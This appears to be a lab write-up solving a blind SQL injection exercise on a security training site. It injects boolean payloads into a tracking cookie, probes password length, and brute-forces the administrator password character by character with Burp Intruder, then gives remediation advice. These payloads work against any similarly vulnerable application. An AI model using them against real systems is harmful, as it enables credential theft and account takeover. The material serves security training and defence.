







# Lab: Blind SQL injection with conditional responses

## Lab Description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. However, the application includes a "Welcome back" message in the page if the SQL query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Step 1 — Intercept the Base Request
Navigate to the application homepage, capture the initial request in Burp Suite, and send it to Repeater. Identify the `TrackingId` cookie parameter used for analytics tracking.

### Example Base Request
GET / HTTP/2
Host: 0ace00d4040cba5183429620004f0040.web-security-academy.net
Cookie: TrackingId=PPh9NYHlh6DXzjKf; session=p5m7qqxmp1aCqq9DZZ9yCnbbFB1Q9kKs

### Screenshots
 

## Step 2 — Verify Blind SQL Injection via True/False Conditions
To verify that the `TrackingId` parameter is vulnerable to Blind SQL Injection, Boolean condition payloads were appended to the cookie value.

### Test Results
* `TrackingId=PPh9NYHlh6DXzjKf' AND '1'='1` -> Response contains the **"Welcome back"** message (**TRUE** condition).
* `TrackingId=PPh9NYHlh6DXzjKf' AND '1'='2` -> Response **does not** contain the "Welcome back" message (**FALSE** condition).

This behavior confirms a Boolean-based Blind SQL Injection vulnerability, allowing data extraction by inferring truth values from application responses.

### Screenshots

## Step 3 — Confirm Table and User Existence
Before attempting password extraction, a subquery was injected to confirm the presence of the `users` table and the `administrator` account.

### Payload
`TrackingId=PPh9NYHlh6DXzjKf' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

### Result
The response returned the **"Welcome back"** message, confirming that both the `users` table and the `administrator` account exist in the database.

### Screenshots

## Step 4 — Determine Password Length
To narrow down the brute-force search space, the length of the `administrator` password was determined using the `LENGTH()` function.

### Test Results
* `TrackingId=PPh9NYHlh6DXzjKf' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')>19--` -> **Welcome back** displayed (Length > 19).
* `TrackingId=PPh9NYHlh6DXzjKf' AND (SELECT LENGTH(password) FROM users WHERE username='administrator')=20--` -> **Welcome back** displayed (Confirms password length is **20 characters**).

### Screenshots

## Step 5 — Exfiltrate Password via Burp Intruder

With the password length confirmed to be 20 characters, a character-by-character brute-force attack was performed using the `SUBSTRING()` function to extract the `administrator` user's password.

### Payload Structure
`TrackingId=PPh9NYHlh6DXzjKf' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--`

### Initial Attack (Cluster Bomb)
* **Attack Type:** Cluster Bomb
* **Payload 1 (Position):** Numbers from 1 to 20
* **Payload 2 (Character Set):** `a-z`, `0-9`
* **Grep - Match:** `Welcome back`

During the Cluster Bomb attack, 19 out of 20 characters were successfully exfiltrated. The character at **position 5** did not yield a result during the main execution sweep due to request throttling / missing match.

### Targeted Exfiltration for Position 5 (Sniper Attack)
To isolate and exfiltrate the missing 5th character without re-running the full cluster bomb payload space:
* **Attack Type:** Sniper
* **Payload:** Target position 5 specifically -> `SUBSTRING(password, 5, 1)`
* **Character Set:** `a-z`, `0-9`
* **Result:** Position 5 returned a match for the character **`t`**.

### Reconstructed Password
Combining all 20 positions yielded the full administrator password:
`9dl5t7h0efsyxebxrz5y`

### Screenshots
  

---

## Step 6 — Authenticate as Administrator and Solve the Lab

Navigate to the `/login` page and log in using the exfiltrated credentials:
* **Username:** `administrator`
* **Password:** `9dl5t7h0efsyxebxrz5y`

Upon successful authentication, access to the administrator dashboard is confirmed, and the lab status changes to **Solved**.

### Screenshots

---

## Vulnerability Analysis & Technical Remediation

### Root Cause
The application executes SQL queries built via dynamic string concatenation using unsanitized user input supplied through the `TrackingId` cookie. Even though query outputs and explicit SQL error messages are suppressed, the application leaks state information through conditional UI responses (**Boolean-based Blind SQL Injection**).

### Impact
An attacker can extract confidential database records (including sensitive hashes or credentials) using targeted boolean subqueries, potentially leading to total account takeover and administrative access.

### Remediation Strategies
1. **Parameterized Queries (Prepared Statements):** Ensure all database interactions bind user parameters strictly as data types rather than executable SQL code fragments.
2. **Input Validation:** Restrict cookie values (like `TrackingId`) using strict strict alphanumerical whitelist patterns.
3. **Generic Responses:** Avoid rendering conditional application responses based on untrusted database output flags.